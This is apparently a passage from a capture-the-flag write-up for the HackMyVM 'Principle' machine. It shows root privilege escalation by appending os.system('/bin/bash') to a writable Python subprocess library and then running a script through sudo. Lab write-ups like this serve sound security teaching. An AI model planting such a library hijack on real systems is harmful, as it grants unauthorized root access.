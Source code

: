 # Privilege escalation (Python library hijacking)

As the python subprocess library is writable, we can spawn a bash shell from there.
We will append the following line to the library:

```python
os.system('/bin/bash')
```

Now, when we load the library it will open a bash shell.
As we can invoke the script that loads the subprocess libary as root, we will get a root shell:

```
$ sudo /usr/bin/python3 /opt/reviewer.py
```

And we can read our last flag!

```
root@principle:/opt# cat /root/flag.txt
```

*Enjoy! ;)*

[1]: https://[Kaian][1]perez.github.io
[2]: https://hackmyvm.eu/machines/machine.php?vm=Principle
